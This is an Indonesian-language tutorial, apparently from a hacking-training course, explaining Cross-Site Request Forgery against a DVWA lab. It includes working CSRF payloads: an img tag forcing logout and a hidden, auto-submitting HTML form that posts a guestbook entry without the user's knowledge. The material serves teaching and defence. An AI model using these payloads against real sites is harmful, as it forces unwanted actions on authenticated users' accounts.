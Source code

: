 # Cross-site Request Forgery

Created: June 22, 2022 1:17 PM

Cross-Site Request Forgery (CSRF) serangan yang memaksa pengguna untuk melakukan tindakan yang tidak diinginkan pada aplikasi web di mana mereka saat ini diautentikasi.

Dengan sedikit bantuan rekayasa sosial (seperti mengirim tautan melalui email atau obrolan), penyerang dapat memaksa pengguna aplikasi web untuk melakukan tindakan yang dipilih penyerang. Eksploitasi CSRF yang berhasil dapat membahayakan data dan operasi pengguna akhir ketika menargetkan pengguna normal. Jika pengguna akhir yang ditargetkan adalah akun administrator, serangan CSRF dapat membahayakan seluruh aplikasi web.

CSRF bergantung pada:

1. Perilaku browser web mengenai penanganan informasi terkait sesi seperti cookie dan informasi otentikasi HTTP.
2. Pengetahuan penyerang tentang URL aplikasi web, permintaan, atau fungsionalitas.
3. Session management pada aplikasi hanya mengandalkan informasi yang dikenal oleh browser.
4. Adanya tag HTML yang kehadirannya menyebabkan akses langsung ke asset; misalnya tag gambar img.

Poin 1, 2, dan 3 sangat penting untuk menghadirkan kerentanan, sementara poin 4 memfasilitasi eksploitasi yang sebenarnya, tetapi tidak sepenuhnya diperlukan.

## **Konsep CSRF dengan HTTP Get**

Ketika kalian mengakses suatu domain, browser akan secara otomatis mengirimkan informasi data cookie sesuai dengan domain yang diatur sebelumnya. Artinya misal kalian mengakses google.com maka browser akan mengirimkan cookie secara otomatis yang tersimpan sebelumnya.

[https://lh6.googleusercontent.com/IF9qvh5Va1XAM6Vir6Xt2cBjEzs5Af6XrCsIdbGctEeUAbVJW5wNwpyOfvOfYpFt_hkqTDZ1daUQtF6eeSfezmobrbv9DkLEO_SwVVEvhZa6rp8q3fQ3dSOOMnIVIIML3B93_6-ypXHlpy13SAonFFkva04](https://lh6.googleusercontent.com/IF9qvh5Va1XAM6Vir6Xt2cBjEzs5Af6XrCsIdbGctEeUAbVJW5wNwpyOfvOfYpFt_hkqTDZ1daUQtF6eeSfezmobrbv9DkLEO_SwVVEvhZa6rp8q3fQ3dSOOMnIVIIML3B93_6-ypXHlpy13SAonFFkva04)

Gambar: Ilustrasi serangan CSRF

Sebagai contoh pada lab DVWA kalian menemukan bahwa URL untuk bisa logout berada di URL berikut :

```bash
http://vuln.cilsy.id:31333/logout.php
```

URL logout di atas tidak ada validasi asal request dibuat. Sehingga kita bisa membuat exploit CSRF logout sebagai berikut :

```html
<img src="http://vuln.cilsy.id:31333/logout.php"/>
```

Tag img ketika di render oleh web browser akan secara otomatis memuat gambar sesuai dengan lokasinya. Karena lokasi tersebut berupa link URL untuk logout maka ketika pengguna mengakses halaman tersebut akan otomatis logout seketika.

## **Konsep CSRF dengan HTTP Post**

Selain mengantarkan exploit CSRF dengan bantuan tag IMG, kita bisa juga mengantarkan exploit dengan jenis HTTP Post menggunakan javascript ataupun HTML. Sebagai contoh pada DVWA terdapat fitur guestbook. Kita bisa menggunakan HTML untuk memaksa pengguna mengirimkan HTTP Post tanpa dia sadari. Berikut contoh exploit CSRF pada guestbook DVWA :

```html
<html>

<head>
   <title>GuestBook Exploit</title>
</head>

<body>
   <iframe style="display:none" name="csrf-frame"></iframe>
   <form id="idForm" action="http://vuln.cilsy.id:31333/vulnerabilities/xss_s/" target="csrf-frame" method="POST">
   	<input type="hidden" name="txtName" value="SekolahHacker" />
   	<input type="hidden" name="mtxMessage" value="CSRF Exploit" />
   	<input type="hidden" name="btnSign" value="Sign Guestbook" />
   	<input type="submit" style="visibility:hidden" />
   </form>
   <script>
   	document.getElementById("idForm").submit();
   </script>
</body>

</html>
```

Penjelasan mengenai cara kerja HTML diatas, ketika kita mengakses halaman HTML tersebut hanya muncul halaman kosong. Namun ternyata didalamnya terdapat sebuah form yang tersembunyi berisi nama dan pesan buku tamu yang sudah di atur oleh penyerang. Di Bagian bawah terdapat javascript untuk memaksa submit data tersebut dan dikirim ke URL [http://vuln.cilsy.id:31333/vulnerabilities/xss_s/](http://vuln.cilsy.id:31333/vulnerabilities/xss_s/). Karena web application tidak mampu memverifikasi asal usul darimana request tersebut dilakukan akhirnya data tersebut dimasukkan ke dalam database tanpa sepengetahuan pengguna.